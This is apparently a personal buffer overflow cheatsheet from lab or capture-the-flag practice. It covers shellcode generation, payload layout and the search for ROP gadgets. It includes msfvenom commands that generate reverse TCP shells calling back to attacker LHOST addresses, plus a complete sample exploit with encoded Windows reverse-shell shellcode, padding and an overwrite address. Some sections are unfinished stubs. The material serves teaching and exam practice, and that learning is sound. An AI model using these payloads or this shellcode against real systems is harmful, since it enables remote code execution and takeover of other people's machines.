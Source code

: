 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
For Windows vulnerable machine
1. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=192.168.1.77 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
2. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00' BufferRegister=EAX -f python

For Linux vulnerable machine
1. msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
```

## Payload Format

* **payload = junk + shell\_addr + \(nops + shellcode\)**
  * `junk` : is offset before the EIP overwritten.
  * `shell_addr` : is the address which we overwrite on the EIP register.
  * `(nops + shellcode)` : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

3\) Even if the shellcode is not running

* It could be due to bad characters. There is a method to find bad characters.

## ROP Gadgets

* Different types of ROP gadgets. Depending on the ROP gadget we decide the payload format.
  * JMP ESP
  * POP RET
  * POP POP RET
* Not when we use ROP gadget, we inject our shellcode inside the "junk" text itself. From experience we  know that "**there is call made back to the stack"** after execution of ROP gadget which points to start of the "junk" address.
* The format **payload = buf + junk\_remaining + ROP\_addr** is for **POP RET**
  * where `buf` is our reverse tcp shellcode
  * where `junk_remaining` = junk - len\(buf\)
  * where `ROP_addr` is the address of the ROP gadget.
* The format **payload = junk + ROP\_addr + shellcode** is for **JMP ESP**
* d

### Sample payload

```text
buf =  ""
buf += "\x48\xf5\x40\x42\x2f\x48\x4a\x49\x99\x4b\xb8\x1b\xa4"	#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.137.141 LPORT=10000 -n 10 --arch x86 --platform windows -f python -b "\x00"
buf += "\x79\xd9\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x52"	# nops are pre included in shellcode.
buf += "\x31\x45\x12\x03\x45\x12\x83\xde\xa0\x9b\x2c\x1c\x40"
buf += "\xd9\xcf\xdc\x91\xbe\x46\x39\xa0\xfe\x3d\x4a\x93\xce"
buf += "\x36\x1e\x18\xa4\x1b\x8a\xab\xc8\xb3\xbd\x1c\x66\xe2"
buf += "\xf0\x9d\xdb\xd6\x93\x1d\x26\x0b\x73\x1f\xe9\x5e\x72"
buf += "\x58\x14\x92\x26\x31\x52\x01\xd6\x36\x2e\x9a\x5d\x04"
buf += "\xbe\x9a\x82\xdd\xc1\x8b\x15\x55\x98\x0b\x94\xba\x90"
buf += "\x05\x8e\xdf\x9d\xdc\x25\x2b\x69\xdf\xef\x65\x92\x4c"
buf += "\xce\x49\x61\x8c\x17\x6d\x9a\xfb\x61\x8d\x27\xfc\xb6"
buf += "\xef\xf3\x89\x2c\x57\x77\x29\x88\x69\x54\xac\x5b\x65"
buf += "\x11\xba\x03\x6a\xa4\x6f\x38\x96\x2d\x8e\xee\x1e\x75"
buf += "\xb5\x2a\x7a\x2d\xd4\x6b\x26\x80\xe9\x6b\x89\x7d\x4c"
buf += "\xe0\x24\x69\xfd\xab\x20\x5e\xcc\x53\xb1\xc8\x47\x20"
buf += "\x83\x57\xfc\xae\xaf\x10\xda\x29\xcf\x0a\x9a\xa5\x2e"
buf += "\xb5\xdb\xec\xf4\xe1\x8b\x86\xdd\x89\x47\x56\xe1\x5f"
buf += "\xc7\x06\x4d\x30\xa8\xf6\x2d\xe0\x40\x1c\xa2\xdf\x71"
buf += "\x1f\x68\x48\x1b\xda\xfb\xb7\x74\x6d\x76\x5f\x87\x6d"
buf += "\xae\xb0\x0e\x8b\xda\xa0\x46\x04\x73\x58\xc3\xde\xe2"
buf += "\xa5\xd9\x9b\x25\x2d\xee\x5c\xeb\xc6\x9b\x4e\x9c\x26"
buf += "\xd6\x2c\x0b\x38\xcc\x58\xd7\xab\x8b\x98\x9e\xd7\x03"
buf += "\xcf\xf7\x26\x5a\x85\xe5\x11\xf4\xbb\xf7\xc4\x3f\x7f"
buf += "\x2c\x35\xc1\x7e\xa1\x01\xe5\x90\x7f\x89\xa1\xc4\x2f"
buf += "\xdc\x7f\xb2\x89\xb6\x31\x6c\x40\x64\x98\xf8\x15\x46"
buf += "\x1b\x7e\x1a\x83\xed\x9e\xab\x7a\xa8\xa1\x04\xeb\x3c"
buf += "\xda\x78\x8b\xc3\x31\x39\xbb\x89\x1b\x68\x54\x54\xce"
buf += "\x28\x39\x67\x25\x6e\x44\xe4\xcf\x0f\xb3\xf4\xba\x0a"
buf += "\xff\xb2\x57\x67\x90\x56\x57\xd4\x91\x72"

junk = 'A'* (524 - len(buf))        #where 524 is the offset after which EIP is overwritten.    
rop_addr = '\x25\x27\x21\x77'        #77212725

payload = buf + junk + rop_addr
```

![](../.gitbook/assets/image%20%2842%29.png)

* Right click on the command box -&gt; Search for -&gt; Sequence of commands

```text
POP EAX
POP EBX
RET
```

* "ctrl + l" to find the next search result.

### Finding ROP in linux 1

* Used to find ROP gadgets in a .exe file.
* Download the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) script.
* Using ROPgadget find the ROP gadgets on the vulnerable .exe file.

![](../.gitbook/assets/image%20%2873%29.png)

### Finding ROP in linux 2

* d

### Finding ROP gadgets in immunity debugger

* We could used this approach to find ROP gadgets in modules only. We cannot use it on .exe files.
* modules means all .dll files that the current program uses. 
* `!mona modules`
* Then we need to decide which modules to use. We use that modules that have most of the necessary protection mechanisms disabled. Like "ASLR", "DEP", "NX" ,etc.

![list of modules](../.gitbook/assets/image%20%288%29.png)

* We selected the brainpan.exe executable as all of the security protections are disabled.
* Our task now is to statically find ROP gadgets. We now can use "[Finding ROP in linux 1](./#finding-rop-in-linux-1)" approach for this mentioned above.

### Could the same exploit on windows x86 be used in linux x86 without modifying a single information?

* Yes but we need some Requirements for this:
  * Run `!mona modules` We need essential memory protection mechanisms disabled on the vulnerable `.exe` file
  * There should be ROP gadgets in the `.exe` file.
  * We need to run the same `.exe` file on the x86 linux machine.
* The only issue with such kind of exploit are the "**hardcoded addresses**".
* If we use ROP gadget method "JMP ESP" for buffer overflow, we have only one hardcoded address, that is of the address of the ROP gadget.
* If we met all the requirements mentioned above. Then the ROP gadget address will not change irrespective of the underlying OS, as it is present inside the `.exe` file itself. 

